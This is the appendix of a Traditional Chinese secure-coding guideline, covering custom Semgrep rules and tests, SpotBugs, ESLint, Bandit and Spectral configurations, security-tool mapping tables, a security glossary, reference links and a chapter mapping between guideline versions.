| 規則 | 對應規則 | 等級 | 說明 |
| --- | --- | --- | --- |
| `scg-anyrequest-permitall` | `SCG-GEN-010` | ERROR | 授權設定以 `anyRequest().permitAll()` 結尾 |
| `scg-requestbody-without-valid` | `SCG-GEN-002` | WARNING | `@RequestBody` 缺少 `@Valid` |
| `scg-blacklist-replace` | `SCG-GEN-005` | WARNING | 以 `replace` 移除危險字元 |
| `scg-catch-returns-true` | `SCG-GEN-008` | ERROR | `catch` 區塊回傳 `true`（fail open） |
| `scg-insecure-random` | `SCG-CRY-004` | WARNING | Java 的非安全亂數 |
| `scg-findbyid-in-controller` | `SCG-ACL-001` | INFO | Controller 直接 `findById`，提醒確認物件層級授權 |
| `scg-entity-as-requestbody` | `SCG-ACL-005` | WARNING | `@RequestBody` 的型別名稱以 `Entity` 結尾 |
| `scg-actuator-expose-all` | `SCG-JAVA-007` | ERROR | Actuator 公開所有端點 |
| `scg-thymeleaf-utext` | `SCG-JAVA-009` | WARNING | `th:utext` 輸出未清理的欄位 |
| `scg-mybatis-dollar` | `SCG-SQL-002` | ERROR | MyBatis 對應檔使用 `${}` |
| `scg-jwt-decode-without-verify` | `SCG-AUTH-011` | WARNING | 只解碼不驗證的 JWT |
| `scg-tls-reject-unauthorized` | `SCG-CRY-006` | ERROR | Node.js 關閉憑證驗證 |
| `scg-angular-bypass-trust` | `SCG-FE-010` | WARNING | Angular `bypassSecurityTrust*` |
| `scg-nosql-request-object` | `SCG-SQL-006` | ERROR | 以請求內容作為 NoSQL 查詢條件 |
| `scg-ts-unvalidated-cast` | `SCG-JS-006` | WARNING | 以型別斷言取代執行期驗證 |

```yaml
rules:
  - id: scg-anyrequest-permitall
    languages: [java]
    severity: ERROR
    message: 存取控制必須預設拒絕（SCG-GEN-010）：不得以 anyRequest().permitAll() 結尾
    pattern: $X.anyRequest().permitAll()

  - id: scg-requestbody-without-valid
    languages: [java]
    severity: WARNING
    message: "@RequestBody 參數缺少 @Valid（SCG-GEN-002）"
    patterns:
      - pattern: |
          $RET $M(..., @RequestBody $T $P, ...) { ... }
      - pattern-not: |
          $RET $M(..., @Valid @RequestBody $T $P, ...) { ... }
      - pattern-not: |
          $RET $M(..., @RequestBody @Valid $T $P, ...) { ... }

  - id: scg-blacklist-replace
    languages: [java]
    severity: WARNING
    message: 以黑名單移除危險字元不是有效的防禦（SCG-GEN-005）；請改用允許清單驗證、輸出編碼或參數化
    patterns:
      - pattern-either:
          - pattern: $S.replace($A, "")
          - pattern: $S.replaceAll($A, "")
      - metavariable-regex:
          metavariable: $A
          regex: (?i).*(script|'|--|<|>).*

  - id: scg-catch-returns-true
    languages: [java]
    severity: ERROR
    message: 例外時回傳 true 可能造成 fail open（SCG-GEN-008）；安全檢查失敗時必須拒絕
    pattern: |
      try { ... } catch ($E $V) { ... return true; }

  - id: scg-insecure-random
    languages: [java]
    severity: WARNING
    message: 安全用途的亂數必須使用 SecureRandom（SCG-CRY-004）
    pattern-either:
      - pattern: new java.util.Random(...)
      - pattern: new Random(...)
      - pattern: Math.random()
      - pattern: java.util.concurrent.ThreadLocalRandom.current()
      - pattern: ThreadLocalRandom.current()

  - id: scg-findbyid-in-controller
    languages: [java]
    severity: INFO
    message: Controller 直接以 ID 查詢，請確認有物件層級授權（SCG-ACL-001、SCG-ACL-002）
    patterns:
      - pattern-inside: |
          @RestController
          class $K { ... }
      - pattern: $REPO.findById($ID)

  - id: scg-entity-as-requestbody
    languages: [java]
    severity: WARNING
    message: 請求本文不得直接繫結到 Entity（SCG-ACL-005）；請改用只含允許欄位的 DTO
    patterns:
      - pattern: |
          $RET $M(..., @RequestBody $T $P, ...) { ... }
      - metavariable-regex:
          metavariable: $T
          regex: .*Entity$

  - id: scg-actuator-expose-all
    languages: [yaml]
    severity: ERROR
    message: Actuator 不得公開所有端點（SCG-JAVA-007）
    pattern: |
      management:
        endpoints:
          web:
            exposure:
              include: "*"

  - id: scg-thymeleaf-utext
    languages: [generic]
    severity: WARNING
    message: th:utext 不會編碼輸出，只能用於清理過的 HTML（SCG-JAVA-009）
    paths:
      include: ["*.html"]
    patterns:
      - pattern-regex: th:utext="\$\{[^}]*\}"
      - pattern-not-regex: th:utext="\$\{[^}]*[Ss]anitized[^}]*\}"

  - id: scg-mybatis-dollar
    languages: [generic]
    severity: ERROR
    message: MyBatis 的 ${} 是字串替換，會造成 SQL 注入（SCG-SQL-002）；請改用 #{}
    paths:
      include: ["*Mapper.xml", "*mapper*.xml"]
    pattern-regex: \$\{[^}]+\}

  - id: scg-jwt-decode-without-verify
    languages: [javascript, typescript]
    severity: WARNING
    message: 只解碼 JWT 不會驗證簽章（SCG-AUTH-011）；請改用 jwtVerify／jwt.verify 並指定 algorithms、issuer、audience
    pattern-either:
      - pattern: decodeJwt(...)
      - pattern: jwt.decode(...)
      - pattern: jwtDecode(...)

  - id: scg-tls-reject-unauthorized
    languages: [javascript, typescript]
    severity: ERROR
    message: 不得關閉 TLS 憑證驗證（SCG-CRY-006）；使用內部 CA 時請以 ca 選項載入
    pattern-either:
      - pattern: |
          {..., rejectUnauthorized: false, ...}
      - pattern: process.env.NODE_TLS_REJECT_UNAUTHORIZED = $V

  - id: scg-angular-bypass-trust
    languages: [typescript]
    severity: WARNING
    message: bypassSecurityTrust* 會關閉 Angular 的清理（SCG-FE-010）；請確認輸入完全由開發者控制
    patterns:
      - pattern: $S.$M(...)
      - metavariable-regex:
          metavariable: $M
          regex: ^bypassSecurityTrust(Html|Url|ResourceUrl|Script|Style)$

  - id: scg-nosql-request-object
    languages: [javascript, typescript]
    severity: ERROR
    message: 不得把請求內容直接當作 NoSQL 查詢條件（SCG-SQL-006）；請先以 Schema 驗證為字串等基本型別
    patterns:
      - pattern-either:
          - pattern: |
              $C.$F({..., $K: $REQ.body.$P, ...}, ...)
          - pattern: |
              $C.$F({..., $K: $REQ.query.$P, ...}, ...)
          - pattern: $C.$F($REQ.body, ...)
      - metavariable-regex:
          metavariable: $F
          regex: ^(find|findOne|findOneAndUpdate|updateOne|updateMany|deleteOne|deleteMany|countDocuments)$

  - id: scg-ts-unvalidated-cast
    languages: [typescript]
    severity: WARNING
    message: 以型別斷言「相信」外部資料（SCG-JS-006）；請改以 zod 等 Schema 在執行期驗證
    pattern-either:
      - pattern: JSON.parse(...) as $T
      - pattern: (await $R.json()) as $T
```

**如何測試自訂規則：** Semgrep 的慣例是在測試檔中以註解標示期望結果，`ruleid:` 表示下一行必須被該規則報告，`ok:` 表示不得報告。每次修改規則都要執行測試，確認沒有遺漏也沒有誤報。

```java
// 測試檔 .semgrep/tests/Samples.java 的片段（以 semgrep --test 執行）
class Misc {
    String clean(String input) {
        // ruleid: scg-blacklist-replace
        String a = input.replace("<script>", "");
        // ok: scg-blacklist-replace
        String c = input.replace("-", "");
        return a + c;
    }
}
```

（片段：規則測試檔的寫法。本指引的 15 條自訂規則共有 20 個 `ruleid` 與 6 個 `ok` 標註，全部符合期望，見附錄 F.2。）

### B.2 SpotBugs＋FindSecBugs（Maven）

FindSecBugs 是 SpotBugs 的安全外掛，對 Java 位元組碼做資料流分析，能找出 SQL 注入、命令注入、XXE、不安全的反序列化、弱加密等問題。CI 建議以 `Medium` 門檻阻擋合併；`Low` 等級的發現（例如 `IMPROPER_UNICODE`、`SPRING_ENDPOINT`）作為審查提示。

```xml
<plugin>
  <groupId>com.github.spotbugs</groupId>
  <artifactId>spotbugs-maven-plugin</artifactId>
  <version>4.10.4.1</version>
  <configuration>
    <effort>Max</effort>
    <threshold>Medium</threshold>
    <failOnError>true</failOnError>
    <includeFilterFile>spotbugs-security-include.xml</includeFilterFile>
    <plugins>
      <plugin>
        <groupId>com.h3xstream.findsecbugs</groupId>
        <artifactId>findsecbugs-plugin</artifactId>
        <version>1.14.0</version>
      </plugin>
    </plugins>
  </configuration>
  <executions>
    <execution>
      <goals><goal>check</goal></goals>
    </execution>
  </executions>
</plugin>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<FindBugsFilter>
  <Match>
    <Bug category="SECURITY"/>
  </Match>
  <Match>
    <Bug pattern="DE_MIGHT_IGNORE,REC_CATCH_EXCEPTION,OBL_UNSATISFIED_OBLIGATION,OS_OPEN_STREAM,PREDICTABLE_RANDOM"/>
  </Match>
</FindBugsFilter>
```

### B.3 ESLint（TypeScript、React、Vue）

ESLint 9／10 的 flat config。`security/detect-object-injection` 與 `security/detect-non-literal-fs-filename` 的誤報率很高（任何 `obj[key]`、任何變數檔名都會被標出），因此設為 `warn` 作為審查提示；`no-unsanitized` 設定了 DOMPurify 與 Trusted Types 政策作為允許的清理函式。

```javascript
// 安全程式碼指引附錄 B.3：ESLint 9／10 flat config（TypeScript＋React＋Vue）
import js from '@eslint/js';
import tseslint from 'typescript-eslint';
import security from 'eslint-plugin-security';
import noUnsanitized from 'eslint-plugin-no-unsanitized';
import regexp from 'eslint-plugin-regexp';
import react from 'eslint-plugin-react';
import vue from 'eslint-plugin-vue';
import vueParser from 'vue-eslint-parser';
import globals from 'globals';

export default tseslint.config(
  js.configs.recommended,
  ...tseslint.configs.recommended,
  security.configs.recommended,
  noUnsanitized.configs.recommended,
  regexp.configs['flat/recommended'],
  {
    languageOptions: { globals: { ...globals.browser, ...globals.node } },
    rules: {
      // 經過清理的寫入點（DOMPurify、Trusted Types 政策）視為安全（SCG-FE-003）
      'no-unsanitized/property': ['error', { escape: { methods: ['DOMPurify.sanitize', 'policy.createHTML'] } }],
      'no-unsanitized/method': ['error', { escape: { methods: ['DOMPurify.sanitize', 'policy.createHTML'] } }],
      // 誤報率高（任何 obj[key] 都會被標出），只作為審查提示
      'security/detect-object-injection': 'warn',
      'security/detect-non-literal-fs-filename': 'warn',
    },
  },
  {
    files: ['**/*.{jsx,tsx}'],
    ...react.configs.flat.recommended,
    settings: { react: { version: '19.3' } },
    rules: {
      ...react.configs.flat.recommended.rules,
      'react/react-in-jsx-scope': 'off',
      'react/no-danger': 'warn',                    // SCG-FE-012：每一處都要有清理與說明
      'react/jsx-no-script-url': 'error',           // SCG-FE-004
      'react/jsx-no-target-blank': 'error',         // SCG-FE-005
    },
  },
  ...vue.configs['flat/recommended'],
  {
    files: ['**/*.vue'],
    languageOptions: { parser: vueParser, parserOptions: { parser: tseslint.parser } },
    rules: { 'vue/no-v-html': 'warn' },              // SCG-FE-008：每一處都要有清理與說明
  },
  {
    rules: {
      'no-eval': 'error',                           // SCG-JS-002
      'no-implied-eval': 'error',
      'no-new-func': 'error',
      'no-restricted-properties': ['error',
        { object: 'Math', property: 'random', message: '安全用途請使用 crypto.getRandomValues／randomBytes（SCG-CRY-004）' }],
      'no-restricted-syntax': ['error',
        {
          selector: "CallExpression[callee.object.name=/^(localStorage|sessionStorage)$/][callee.property.name='setItem'][arguments.0.value=/token/i]",
          message: '不得把權杖存入 Web Storage（SCG-AUTH-012）',
        },
        {
          selector: 'TemplateLiteral > TemplateElement[value.raw=/[a-z0-9]-$/]',
          message: '不得以樣板字串組合 class 名稱，請使用完整 class 的對照表（SCG-FE-015）',
        }],
    },
  },
);
```

**TypeScript 7 與 typescript-eslint：** TypeScript 7.0 的原生編譯器尚未提供 typescript-eslint 需要的程式化 API。專案若要同時使用 TypeScript 7 的 `tsc` 與 typescript-eslint，依 TypeScript 官方的建議以套件別名並存：

```json
{
  "devDependencies": {
    "@typescript/native": "npm:typescript@^7.0.2",
    "typescript": "npm:@typescript/typescript6@^6.0.2",
    "typescript-eslint": "^8.71.1"
  }
}
```

### B.4 Bandit 與 Ruff（Python）

```toml
# pyproject.toml
[tool.bandit]
exclude_dirs = ["tests", ".venv", "build"]
# 不建議以 skips 關閉規則；個別例外請在程式碼中以「# nosec B603 SEC-EX-2026-012」標註

[tool.ruff.lint]
# S = flake8-bandit，讓 IDE 即時提示與 Bandit 相同的問題
extend-select = ["S"]
```

```bash
# CI：中等以上嚴重度與信心度的發現即失敗
bandit -c pyproject.toml -r src -ll -ii
pip-audit -r requirements.txt --strict
```

### B.5 Spectral（OpenAPI 契約）

以 Spectral 在 CI 檢查 OpenAPI 文件，讓「每個欄位都有限制」（`SCG-API-001`）成為可自動驗證的規則。

```yaml
# 安全程式碼指引附錄 B.5：OpenAPI 契約的安全規則（SCG-API-001）
extends: [["spectral:oas", "recommended"]]
rules:
  scg-string-maxlength:
    description: 字串欄位必須定義 maxLength（SCG-API-001）
    message: "{{path}} 缺少 maxLength"
    severity: error
    given: "$..properties[?(@.type == 'string' && !@.enum)]"
    then:
      field: maxLength
      function: defined
  scg-number-bounds:
    description: 數值欄位必須定義 minimum 與 maximum（SCG-API-001）
    message: "{{path}} 缺少 {{property}}"
    severity: error
    given: "$..properties[?(@.type == 'integer' || @.type == 'number')]"
    then:
      - field: minimum
        function: defined
      - field: maximum
        function: defined
  scg-array-maxitems:
    description: 陣列必須定義 maxItems（SCG-API-001）
    severity: error
    given: "$..properties[?(@.type == 'array')]"
    then:
      field: maxItems
      function: defined
  scg-object-additional-properties:
    description: 物件 Schema 必須明確宣告 additionalProperties；請求 Schema 應為 false（SCG-API-001、SCG-ACL-005）
    severity: error
    given: "$.components.schemas[?(@.type == 'object')]"
    then:
      field: additionalProperties
      function: defined
```

### B.6 GitHub Actions、容器與秘密掃描

| 工具 | 用途 | 指令 | 對應規則 |
| --- | --- | --- | --- |
| zizmor | GitHub Actions 安全分析（範本注入、權限、`pull_request_target`、未固定的 Action） | `zizmor .github/workflows/` | `SCG-SUP-006` |
| actionlint | 工作流程語法與 Shell 檢查 | `actionlint` | `SCG-SDL-002` |
| Gitleaks | 秘密掃描（設定見 5.3） | `gitleaks git --redact`、`gitleaks dir dist/` | `SCG-CRY-008` |
| hadolint | Dockerfile 最佳實務 | `hadolint Dockerfile` | `SCG-CFG-004` |
| Trivy | 映像弱點、秘密與 IaC 掃描 | `trivy image`、`trivy config` | `SCG-CFG-006` |
| kubeconform | Kubernetes 清單結構驗證 | `kubeconform -strict -summary deploy/` | `SCG-CFG-005` |
| OSV-Scanner | 相依套件弱點 | `osv-scanner scan source -r .` | `SCG-SUP-001` |

### B.7 規則與工具對照

| 工具 | 主要涵蓋的規則 |
| --- | --- |
| Semgrep（官方＋B.1 自訂規則） | `SCG-GEN-002`、`SCG-GEN-005`、`SCG-GEN-008`、`SCG-GEN-010`、`SCG-ACL-001`、`SCG-ACL-005`、`SCG-AUTH-011`、`SCG-CRY-004`、`SCG-CRY-006`、`SCG-JAVA-007`、`SCG-JAVA-009`、`SCG-SQL-001`、`SCG-SQL-002`、`SCG-SQL-006`、`SCG-JS-006`、`SCG-FE-010` |
| SpotBugs＋FindSecBugs | `SCG-JAVA-001`–`SCG-JAVA-006`、`SCG-JAVA-010`、`SCG-SQL-001`、`SCG-CRY-001`、`SCG-CRY-002`、`SCG-CRY-004`、`SCG-CRY-006`、`SCG-IO-003`、`SCG-IO-005`、`SCG-LOG-003` |
| ESLint（B.3） | `SCG-JS-001`、`SCG-JS-002`、`SCG-JS-004`、`SCG-JS-005`、`SCG-FE-003`、`SCG-FE-008`、`SCG-FE-012`、`SCG-FE-015`、`SCG-AUTH-012`、`SCG-CRY-004` |
| Bandit | `SCG-PY-001`–`SCG-PY-009`、`SCG-AI-006` |
| Spectral（B.5） | `SCG-API-001` |
| Gitleaks | `SCG-SDL-003`、`SCG-CRY-008`、`SCG-FE-007`、`SCG-LOG-002` |
| OSV-Scanner、Dependency-Check、Dependabot | `SCG-SUP-001`、`SCG-SDL-005`、`SCG-FE-014` |
| zizmor、actionlint | `SCG-SUP-006`、`SCG-SDL-002` |
| hadolint、Trivy、kubeconform | `SCG-CFG-004`–`SCG-CFG-006` |
| ZAP（被動與主動掃描） | `SCG-AUTH-008`、`SCG-FE-001`、`SCG-CFG-001`、`SCG-API-002`、`SCG-JAVA-010` |

---

## 附錄 C 術語表

| 術語 | 英文 | 說明 |
| --- | --- | --- |
| 允許清單 | Allowlist | 只接受明確列出的值；相對於「黑名單」只拒絕已知的壞值。輸入驗證、檔案類型、重新導向、CORS 都應使用允許清單 |
| 物件層級授權失效 | BOLA／IDOR | 修改請求中的物件識別碼就能存取他人資料的弱點（Broken Object Level Authorization／Insecure Direct Object Reference） |
| 大量賦值 | Mass Assignment | 把請求內容直接繫結到資料物件，讓攻擊者修改不該修改的欄位（例如 `role`） |
| 跨站腳本 | XSS（Cross-Site Scripting） | 攻擊者的腳本在受害者的瀏覽器中、以網站的身分執行。分為儲存型、反射型、DOM 型 |
| 跨站請求偽造 | CSRF | 誘使已登入的使用者在不知情下送出請求；以 Cookie 驗證身分的系統需要 CSRF 權杖或 SameSite Cookie 防護 |
| 伺服器端請求偽造 | SSRF | 讓伺服器替攻擊者向內部網路或雲端中繼資料服務發出請求 |
| 內容安全政策 | CSP（Content Security Policy） | 以回應標頭告訴瀏覽器哪些腳本、樣式、連線來源是允許的 |
| 可信任型別 | Trusted Types | 瀏覽器機制，要求寫入 `innerHTML` 等危險位置的值必須經過指定的政策處理 |
| 子資源完整性 | SRI（Subresource Integrity） | 以雜湊值確認從 CDN 載入的檔案沒有被竄改 |
| 慢雜湊 | Password Hashing Function | 刻意耗費運算與記憶體的雜湊（Argon2id、bcrypt、scrypt），用於儲存密碼 |
| 鑑別加密 | AEAD | 同時提供機密性與完整性的加密模式（AES-GCM、ChaCha20-Poly1305） |
| 信封加密 | Envelope Encryption | 以資料金鑰加密資料，再以 KMS 中的主金鑰加密資料金鑰 |
| 密碼學安全亂數產生器 | CSPRNG | 輸出無法被預測的亂數產生器，例如 `SecureRandom`、`secrets`、`crypto.randomBytes` |
| 後量子密碼學 | PQC（Post-Quantum Cryptography） | 能抵抗量子電腦攻擊的演算法，例如 ML-KEM（FIPS 203）、ML-DSA（FIPS 204） |
| 通行金鑰 | Passkey | 以 WebAuthn／FIDO2 為基礎、抗釣魚的無密碼登入方式 |
| 授權碼流程＋PKCE | Authorization Code + PKCE | OAuth 2.0 的建議流程；PKCE 防止授權碼被攔截後使用 |
| 前端專用後端 | BFF（Backend for Frontend） | 由伺服器端代替瀏覽器保存 OAuth 權杖的架構，瀏覽器只持有 `HttpOnly` Session Cookie |
| 失敗安全 | Fail Closed | 發生錯誤或無法判斷時選擇拒絕，而不是放行 |
| 檢查與使用的競爭 | TOCTOU | 「先檢查、後使用」之間狀態被改變造成的並行弱點 |
| 原型污染 | Prototype Pollution | JavaScript 中透過 `__proto__` 等鍵修改所有物件共用的原型 |
| 正規表示式阻斷服務 | ReDoS | 特製輸入讓正規表示式的回溯次數呈指數成長，耗盡 CPU |
| 反序列化 gadget 鏈 | Deserialization Gadget Chain | 利用類別路徑中既有類別的副作用，在反序列化時串成任意程式執行 |
| XML 外部實體 | XXE（XML External Entity） | XML 解析器處理外部實體，造成檔案讀取或 SSRF |
| Zip Slip | Zip Slip | 壓縮檔中含 `../` 的項目在解壓縮時寫到目標目錄之外 |
| 提示注入 | Prompt Injection | 以輸入或檢索內容操控大型語言模型的行為 |
| 過度代理 | Excessive Agency | AI 代理被賦予超過任務需要的工具與權限 |
| 套件幻覺搶註 | Slopsquatting | 攻擊者註冊 AI 經常虛構的套件名稱，等待開發者安裝 |
| 軟體物料清單 | SBOM（Software Bill of Materials） | 列出軟體包含的所有元件與版本的清單，格式有 CycloneDX、SPDX |
| 建置來源證明 | Provenance | 記錄產物由哪個原始碼、在哪個環境、以什麼步驟建置的可驗證資訊（SLSA） |
| 靜態應用程式安全測試 | SAST | 不執行程式、分析原始碼或位元組碼找出弱點（Semgrep、FindSecBugs、Bandit） |
| 軟體組成分析 | SCA | 找出相依套件中的已知弱點（OSV-Scanner、Dependency-Check） |
| 動態應用程式安全測試 | DAST | 對執行中的應用程式送出攻擊請求找出弱點（ZAP） |
| 已知遭利用弱點清單 | KEV（Known Exploited Vulnerabilities） | CISA 維護的、已確認在真實世界被利用的弱點清單 |

---

## 附錄 D 參考資料

連結於 2026-10-08 查證（方式與結果見附錄 F.2；少數因網站阻擋自動化存取或查證工具額度而未完成確認者，列於附錄 F.3）。

### D.1 國際標準與框架

| 資料 | 說明 |
| --- | --- |
| [OWASP Top 10:2025](https://top10.owasp.org/2025/) | Web 應用程式十大風險（2025 版） |
| [OWASP ASVS](https://owasp.org/www-project-application-security-verification-standard/)（[GitHub](https://github.com/OWASP/ASVS)） | 應用程式安全驗證標準 5.0，提供 CSV／JSON 格式的需求清單 |
| [OWASP API Security Top 10 2023](https://api-security.owasp.org/editions/2023/en/0x11-t10/) | API 十大風險 |
| [OWASP Top 10 for LLM Applications](https://genai.owasp.org/llm-top-10/) | 大型語言模型應用十大風險（2025 版） |
| [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/) | 各主題的實作速查表（輸入驗證、XSS、SQL 注入、密碼儲存等） |
| [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/) | 安全測試方法 |
| [CWE Top 25](https://cwe.mitre.org/top25/) | 最危險的軟體弱點（2025 版） |
| [NIST SP 800-218 SSDF](https://csrc.nist.gov/projects/ssdf) | 安全軟體開發框架（1.1；1.2 草案） |
| [NIST SP 800-218A](https://csrc.nist.gov/pubs/sp/800/218/a/final) | 生成式 AI 的 SSDF 補充 |
| [NIST SP 800-63B-4](https://pages.nist.gov/800-63-4/sp800-63b.html) | 數位身分驗證指引 |
| [ISO/IEC 27002:2022](https://www.iso.org/standard/75652.html) | 資訊安全控制措施 |
| [PCI DSS 文件庫](https://www.pcisecuritystandards.org/document_library/) | 支付卡產業資料安全標準 4.0.1 |
| [CISA Secure by Design](https://www.cisa.gov/securebydesign) | 預設安全原則與承諾 |
| [SLSA 1.1](https://slsa.dev/spec/v1.1/) | 軟體供應鏈的建置完整性等級 |
| [OpenSSF Scorecard](https://scorecard.dev/) | 開源專案的安全實務評分 |
| [RFC 9700 OAuth 2.0 Security BCP](https://www.rfc-editor.org/rfc/rfc9700) | OAuth 2.0 安全最佳實務 |
| [OAuth 2.1（草案）](https://datatracker.ietf.org/doc/draft-ietf-oauth-v2-1/) | 整合安全最佳實務的 OAuth 新版（尚未成為 RFC） |
| [OAuth 2.0 for Browser-Based Applications（草案）](https://datatracker.ietf.org/doc/draft-ietf-oauth-browser-based-apps/) | 瀏覽器應用與 BFF 模式 |
| [RFC 9457 Problem Details](https://www.rfc-editor.org/rfc/rfc9457) | API 錯誤回應格式 |
| [全國法規資料庫：資通安全管理法](https://law.moj.gov.tw/LawClass/LawAll.aspx?pcode=A0030297) | 2025-09-24 修正公布 |
| [全國法規資料庫：個人資料保護法](https://law.moj.gov.tw/LawClass/LawAll.aspx?pcode=I0050021) | 2025-11-11 修正公布 |

### D.2 語言與框架的官方安全文件

| 資料 | 說明 |
| --- | --- |
| [Secure Coding Guidelines for Java SE](https://www.oracle.com/java/technologies/javase/seccodeguide.html) | Oracle 官方 Java 安全程式碼指引（文件版本 11.0） |
| [SEI CERT Oracle Coding Standard for Java](https://cmu-sei.github.io/secure-coding-standards/sei-cert-oracle-coding-standard-for-java/) | CERT 的 Java 安全程式碼標準 |
| [Spring Security Reference](https://docs.spring.io/spring-security/reference/) | 包含多因子驗證、Passkeys、CSRF、標頭設定 |
| [Spring Boot Actuator Endpoints](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html) | 端點公開與存取控制 |
| [Bandit 文件](https://bandit.readthedocs.io/) | Python 安全檢查規則說明 |
| [Node.js Security Best Practices](https://nodejs.org/en/learn/getting-started/security-best-practices) | Node.js 官方安全實務 |
| [Vue Security](https://vuejs.org/guide/best-practices/security.html) | Vue 官方安全指引 |
| [Angular Security](https://angular.dev/best-practices/security) | Angular 官方安全指引（清理、CSP、Trusted Types、XSRF） |
| [React：Critical Security Vulnerability in React Server Components](https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components) | CVE-2025-55182 與後續弱點公告 |
| [Tailwind CSS Play CDN](https://tailwindcss.com/docs/installation/play-cdn) | 瀏覽器端版本僅供開發使用 |
| [MDN：Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP) | CSP 指令說明 |
| [MDN：Trusted Types API](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API) | Trusted Types 說明 |
| [DOMPurify](https://github.com/cure53/DOMPurify) | HTML 清理函式庫 |
| [TypeScript 7.0 發布說明](https://devblogs.microsoft.com/typescript/announcing-typescript-7-0/) | 含與 TypeScript 6 並存的方式 |
| [PostgreSQL CREATE FUNCTION](https://www.postgresql.org/docs/current/sql-createfunction.html) | 含「Writing SECURITY DEFINER Functions Safely」 |
| [Oracle DBMS_ASSERT](https://docs.oracle.com/en/database/oracle/oracle-database/23/arpls/DBMS_ASSERT.html) | PL/SQL 識別字驗證 |
| [SQL Server sp_executesql](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-executesql-transact-sql) | T-SQL 參數化動態 SQL |
| [Db2 PREPARE](https://www.ibm.com/docs/en/db2/12.1.0?topic=statements-prepare) | Db2 動態 SQL 與參數標記 |

### D.3 工具

| 工具 | 說明 |
| --- | --- |
| [Semgrep](https://docs.semgrep.dev/) | 多語言靜態分析與自訂規則 |
| [Find Security Bugs](https://find-sec-bugs.github.io/bugs.htm) | SpotBugs 安全外掛的規則清單 |
| [eslint-plugin-security](https://github.com/eslint-community/eslint-plugin-security) | JavaScript 安全規則 |
| [zizmor](https://docs.zizmor.sh/) | GitHub Actions 安全分析 |
| [Gitleaks](https://github.com/gitleaks/gitleaks) | 秘密掃描 |
| [OSV-Scanner](https://google.github.io/osv-scanner/) | 相依套件弱點掃描 |
| [CSP Evaluator](https://csp-evaluator.withgoogle.com/) | CSP 政策檢查 |
| [Security Headers](https://securityheaders.com/) | 回應標頭檢查 |
| [pnpm 設定](https://pnpm.io/settings) | `minimumReleaseAge`、`allowBuilds` 等供應鏈設定 |
| [npm config](https://docs.npmjs.com/cli/v11/using-npm/config) | `min-release-age`、`ignore-scripts` |

### D.4 學習資源

| 資源 | 說明 |
| --- | --- |
| [PortSwigger Web Security Academy](https://portswigger.net/web-security) | 免費的互動式 Web 安全課程與實驗室 |
| [OWASP WebGoat](https://owasp.org/www-project-webgoat/) | 刻意設計有弱點的練習應用程式 |
| 本指引的 ❌ 範例 | 每個 ❌ 範例都可以在本機重現，搭配附錄 B 的工具觀察偵測結果，是很好的內部教材 |

### D.5 公司內部資源

下列資源由各公司自行補充連結（v2.0 中的範例信箱已移除，避免被誤認為真實聯絡方式）：

| 資源 | 用途 |
| --- | --- |
| 資訊安全政策、資料分級與處理準則 | 決定 ASVS 等級（1.3）與資料遮罩要求（14.1） |
| 弱點通報與資安事件通報管道 | `SECURITY.md`（`SCG-SDL-008`）與 20.5 節 |
| 安全例外清單（`SECURITY-EXCEPTIONS.md`）的核准流程 | 0.6 節 |
| 公司核准的 AI 服務清單 | `SCG-SDL-009`、第 16 章 |
| 內部制品庫（Maven、npm、PyPI 代理）與容器映像倉庫 | 第 15 章 |

---

## 附錄 E v2.0 與 v3.0 章節對照

v3.0 依使用者決定「聚焦程式碼層級」重新組織。下表列出 v2.0 的每一個小節在 v3.0 的位置；平台與流程類主題改為連結到專門的指引。

| v2.0 小節 | v3.0 位置 | 處理方式 |
| --- | --- | --- |
| 2.1 最小權限原則 | 2.1 | 擴充為規則 `SCG-GEN-001`、`SCG-GEN-010`，加上 PostgreSQL 權限範例 |
| 2.2 輸入驗證 | 2.2 | 擴充（正規化、黑名單反例、驗證測試） |
| 2.3 錯誤處理 | 2.4、14.2、12.2 | 拆分為失敗安全、例外處理、API 錯誤格式 |
| 2.4 加密使用原則 | 第 5 章 | 改寫（演算法表、AES-GCM、金鑰管理、後量子） |
| 2.5 安全標頭設定 | 17.1、9.1 | 改寫；移除 `X-XSS-Protection` 啟用建議與含 `unsafe-inline` 的 CSP |
| 2.6 Session 與 Token 管理 | 3.3、3.4 | 改寫；移除寫死 HMAC 金鑰的 JWT 範例 |
| 3.1 Java / Spring Boot | 第 6 章 | 擴充為命令／運算式／LDAP 注入、反序列化、XXE、Spring Boot 設定 |
| 3.2 Python | 第 7 章 | 擴充，每條規則對應 Bandit 檢查 |
| 3.3 JavaScript / TypeScript / Vue3 | 第 8 章、9.2 | 拆分為語言與 Node.js（第 8 章）及 Vue（9.2）；新增 Angular、React、HTML、Tailwind |
| 3.4 資料庫安全 | 第 10、11 章 | 拆分為 SQL 與預存程序（四種資料庫方言） |
| 4.1 A01:2021 – Broken Access Control (存取控制失效) | 第 4 章、18.1 | 改為 OWASP Top 10:2025 對照；授權規則集中在第 4 章 |
| 4.2 A02:2021 – Cryptographic Failures (加密失效) | 第 5 章、18.1 | 同上（2025 版為 A04） |
| 4.3 A03:2021 – Injection (注入攻擊) | 第 6、7、8、10、11 章、18.1 | 同上（2025 版為 A05） |
| 4.4 A04:2021 – Insecure Design (不安全設計) | 2.5、18.1 | 同上（2025 版為 A06）；設計層級見系統設計指引 |
| 4.5 A05:2021 – Security Misconfiguration (安全設定錯誤) | 第 17 章、6.4、18.1 | 同上（2025 版為 A02）；修正已廢棄的 Actuator 屬性 |
| 4.6 A06:2021 – Vulnerable Components (易受攻擊元件) | 第 15 章、18.1 | 併入 2025 版 A03 軟體供應鏈失效 |
| 4.7 A07:2021 – Identification and Authentication Failures (識別與驗證失效) | 第 3 章、18.1 | 同上；修正與 NIST SP 800-63B-4 衝突的密碼組成規則 |
| 4.8 A08:2021 – Software and Data Integrity Failures (軟體與資料完整性失效) | 6.2、15.3、18.1 | 同上 |
| 4.9 A09:2021 – Security Logging & Monitoring Failures (安全日誌與監控失效) | 第 14 章、18.1 | 同上（2025 版更名為安全記錄與警示失效） |
| 4.10 A10:2021 – Server-Side Request Forgery (SSRF) | 13.3、18.1 | 2025 版併入 A01；以 DNS 解析後的 IP 檢查改寫 |
